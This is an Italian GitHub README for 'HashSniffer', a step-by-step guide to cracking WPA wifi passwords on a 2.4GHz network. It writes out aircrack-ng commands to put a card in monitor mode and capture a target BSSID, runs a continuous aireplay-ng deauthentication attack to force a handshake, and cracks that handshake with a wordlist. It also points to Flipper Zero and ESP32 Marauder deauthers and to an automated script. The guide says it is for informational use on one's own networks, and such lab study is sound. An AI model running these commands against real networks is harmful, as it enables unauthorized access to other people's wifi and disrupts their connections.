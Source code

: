 # $${\color{white}Hash \space \color{red}Sniffer}$$
Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

Per seguire questa semplificare i vari comandi di testing, abbiamo creato un tool da eseguire in shell linux. Nella guida troverete sia come usare il tool che i comandi da eseguire manualmente. Ricordiamo inoltre che il tool è completamente source code.

## $${\color{aqua}Automated \space script}$$

Iniziamo scaricando la repo in locale:
```bash
$ git clone https://github.com/callmenoway/HashSniffer.git
$ cd HashSniffer
```
Successivamente eseguiamo il tool:
```bash
$ chmod +x hashsniffer.sh
$ ./hashsniffer.sh
```


## $${\color{green}Guida \space manuale}$$

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato.
Iniziamo aprendo un terminale e seguendo i seguenti comandi: <br>
```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```
<p align="center">
  <img src="img/1.png">
</p>
Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start <YOURE WIRELESS EXTENSION>
```
<p align="center">
  <img src="img/2.png">
</p>
Successivamente per visualizzare tutte le reti disponibili: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng wlan0mon
```
<br>
<p align="center">
  <img src="img/4.png">
</p>
Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```
In questo modo stiamo verificando solo la rete in questione.
## $${\color{green}Deauth \space \color{red} Attack}$$
Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...).
Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco. <br> <br>
Deauth attack con Flipper Zero:
<p align="center">
  <img src="img/flipper.jpg" width=300px>
</p>
Attacco deauth integrato tramite il comando: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```
<p align="center">
  <img src="img/5.png">
</p>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```
<p align="center">
  <img src="img/6.png">
</p>
Il tempo di decriptazione può variare in base alla difficoltà della password e dalla lista che viene usata.

## $${\color{orange}Tools}$$
[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32). <br>
Deauther fai da te: [Marauder](https://github.com/justcallmekoko/ESP32Marauder). <br>
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
